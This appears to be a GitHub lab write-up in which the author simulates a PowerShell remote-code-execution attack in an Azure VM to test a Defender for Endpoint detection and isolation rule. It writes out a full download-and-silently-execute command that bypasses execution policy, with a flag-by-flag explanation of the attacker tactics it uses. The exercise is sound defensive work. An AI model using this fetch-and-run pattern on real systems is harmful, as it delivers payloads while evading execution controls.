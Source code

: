 # 03 - Attack Simulation

## Introduction

In this phase of the project, I simulated a realistic Remote Code Execution (RCE) attack using PowerShell. The purpose of this simulation was to validate the effectiveness of the custom detection rule I had configured in Microsoft Defender for Endpoint (MDE). By mimicking attacker behaviour through a controlled script execution, I was able to observe how the endpoint protection system responded in a real-time scenario.

To emulate an attacker’s workflow, I used PowerShell to download and install a legitimate application (7-Zip) from an external source. This provided a safe yet practical example of how attackers often introduce payloads into a compromised system.

## Step-by-Step Procedure

### Simulate the Attack

#### Action

I logged into the compromised Windows 10 virtual machine (VM) hosted in Microsoft Azure and executed the following PowerShell command to simulate the RCE attack:

```powershell
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -NoProfile -Command "Invoke-WebRequest -Uri 'https://sacyberrange00.blob.core.windows.net/vm-applications/7z2408-x64.exe' -OutFile C:\ProgramData\7z2408-x64.exe; Start-Process 'C:\ProgramData\7z2408-x64.exe' -ArgumentList '/S' -Wait"
```
## Explanation of the Command

- **`cmd.exe /c`**: Executes a command using the Windows command-line interface (`cmd.exe`).

- **`powershell.exe -ExecutionPolicy Bypass -NoProfile`**: Launches PowerShell with the execution policy bypassed and user profiles excluded. This is a common tactic used by attackers to evade execution restrictions and reduce traces of execution.

- **`Invoke-WebRequest`**: Downloads the 7-Zip installer from a remote server. In a real attack, this command could be used to retrieve malware or scripts.

- **`-OutFile C:\ProgramData\7z2408-x64.exe`**: Specifies the file path where the downloaded executable will be saved. The `ProgramData` directory is often writable and frequently targeted in attacks.

- **`Start-Process 'C:\ProgramData\7z2408-x64.exe' -ArgumentList '/S' -Wait`**: Executes the downloaded file with the `/S` flag for silent installation, ensuring that the installation proceeds without user prompts or UI, while `-Wait` ensures the command session remains active until the installation is complete.

## Why This Attack Simulation is Important

This simulation closely mirrors tactics used by real-world adversaries who exploit PowerShell’s capabilities to deliver and execute malicious payloads. Executing this simulation served several key purposes:

- It allowed me to validate the effectiveness of the custom detection rule I created, which was designed to flag the use of `Invoke-WebRequest` in combination with `Start-Process`.
- It tested whether MDE would respond appropriately by isolating the device to contain the threat.
- It confirmed the automatic collection of an investigation package, which includes critical forensic artefacts necessary for post-incident analysis.

## Outcomes

- **Detection Rule Triggered**: As expected, the detection rule fired upon execution of the simulated attack, confirming the reliability of my KQL query.

![Custom Detection Rules](2-Images/image4.png) 

![Custom Detection Rules](2-Images/image3.png) 

- **Device Isolation**: The virtual machine was automatically isolated by MDE. This broke the device’s network connection to prevent further lateral movement or command-and-control activity.
- **Investigation Package**: MDE collected a full investigation package, which included process trees, file and registry activity, event logs, and network connections. This data allowed me to review the attack in detail and assess the potential impact.

## Summary

By simulating an RCE attack using PowerShell, I was able to demonstrate how endpoint protection tools like Microsoft Defender for Endpoint can be configured to detect specific attacker behaviours and respond automatically. This exercise strengthened my understanding of PowerShell-based attack vectors, defensive detection logic using KQL, and the incident response features within the MDE platform.
